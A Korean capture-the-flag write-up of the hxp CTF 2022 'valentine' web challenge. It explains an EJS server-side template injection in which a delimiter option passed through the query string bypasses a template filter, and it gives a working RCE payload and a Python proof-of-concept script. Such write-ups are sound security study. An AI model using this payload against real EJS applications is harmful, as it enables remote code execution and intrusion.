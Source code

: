 ```yaml
---
title: '[CTF] [hxp CTF 2022] valentine'
author: hoppi
date: 2023-03-14 22:01:00 + 0000
categories: [CTF]
tags: [ctf, hxp_2022, valentine, web]
---
```


오랜만에 CTF에 참여했습니다. 앞으로는 좀 더 자주 참여하려구요. 참고로 이 문제는 기간동안 풀지 못했습니다. 했던 방법이 안돼서 뭔가 내가 모르는게 있나 싶었는데 끝나고 롸업을 보니 유저 이슈... 올해는 유저 이슈를 줄여보도록 하자라고 마음먹었는데 제 자신한테 화가 나내요🥲

# 분석
***

## 플레그 위치
*** 
플레그는 아래처럼 `flag.txt`로 존재하지만 `Dockerfile`을 보면 읽을 권한은 `root`만 가지고 있어서 우리는 `readflag` 바이너리를 실행해야합니다. 즉 `RCE`가 필요하다는 것을 알 수 있죠.  
```plaintext
├── Dockerfile
├── app.js
├── docker-compose.yml
├── flag.txt
├── index.html
├── node_modules
├── package-lock.json
├── package.json
├── readflag
```
<br/>

## 기능
***
아래처럼 `/template` 엔드포인트를 통해서 `ejs` 템플릿 구문을 사용할 수 있지만 `<%= name %>`만 허용하고 있습니다. 
```javascript
// app.js: 19
app.post('/template', function(req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch(err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});
```
{: file='app.js'}
<br/>

# 취약점
***
ejs의 경우 템플릿 구문을 커스텀할 수 있는데 그렇게 되면 `RCE`를 할 수 있습니다. 그렇다면 어떻게 우회를 해야할까요?
![custom](../../../assets/img/2023-03-14/custom.png){: w="700" h="350" }  
<br/>

유명한 취약점인 [CVE-2022-29078](https://eslam.io/posts/ejs-server-side-template-injection-rce/)는 `ejs@3.1.6`에서 `RCE`를 가능하게 합니다. `req.query` 객체를 한번에 `res.render`의 인자로 넘겨줄 때 발생하죠. 이 문제도 마찬가지로 그렇게 주고 있었습니다.  
```javascript
// app.js: 43
app.get('/:template', function(req, res) {
  let query = req.query;
  console.log(`[+] query ==> ${JSON.stringify(query)}`)
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});

```
{: file='app.js'}
<br/>

하지만 이 문제의 경우 `3.1.8` 버전이고 `bodyParser.urlencoded`의 `extended`가 `false`여서 객체의 객체를 파싱하지 못합니다. 하지만 해당 취약점의 글을 자세히 보면 `ejs` 내부에서 쓰는 옵션을 쿼리 스트링형식으로 전달해주면 그것을 덮어씌울 수 있게됩니다. 따라서 `delimeter`를 커스텀하여 `<%= name %>`를 우회할 수 있게 됩니다.  
```javascript
...

var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
```
{: file='ejs.js'}
<br/>


# Exploit
***
아래와 같이 원하는 `delimeter`만 설정하여 `RCE` 페이로드를 `tmpl`으로 설정해주고 `delimeter`를 넘겨주면 됩니다.  
```plaintext
<@- process.mainModule.require('child_process').execSync('/readflag') @>
```
{: file='tmpl'}
<br/>

하지만 `tmpl`을 작성하고 전송하면 해당 파일로 바로 `Redirect` 됩니다. `Dockerfile`을 보면 아래와 같은 설정이 존재하는데 바로 `express`에서 `캐싱`을 설정하는 것이었죠. 리다이렉트되면 기본 `delimeter`인 `%`가 캐싱되는 것이죠. 따라서 리다이렉트되고 나서 `delimeter` 파라미터를 설정해줘도 정상적으로 `exploit`이 되지 않았던 이유입니다. 제가 풀지 못했던 이유가 이것입니다... 좀 더 생각해보고 시도했으면 풀었을텐데 너무 아쉽네요   
```plaintext
ENV NODE_ENV=production
```
{: file='Dockerfile'}
<br/>

```javascript
if (env === 'production') {
  this.enable('view cache');
}
```
{: file='express/application.js'}
<br/>

## PoC Code
***
요청을 보낼때 `allow_redirects`를 `false`로 설정해주어 리다이렉트를 막으면 됩니다.  
```python
from requests import post, get
from re import search

info = lambda x : print(f"[+] {x}")

URL ='http://168.119.235.41:9086'
FLAG =''


res = post(f"{URL}/template", data={"tmpl":"<@- process.mainModule.require('child_process').execSync('/readflag') @>"}, allow_redirects=False)

m = search(r"Redirecting to /(?P<uuid>.*?)?name=", res.text)
res = get(f"{URL}/{m.group('uuid')}?name=a&delimiter=@")
m = search(r"hxp{.*?}", res.text)
if m :
    FLAG = m.group()
    info(f'Flag is {FLAG}')
else :
    print(f"[-] Failed to find the flag")

```
{: file='exploit.py'}
<br/>

# Reference
***
- [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
- [https://www.npmjs.com/package/ejs](https://www.npmjs.com/package/ejs)
- [https://hxp.io/blog/101/hxp-CTF-2022-valentine/](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)
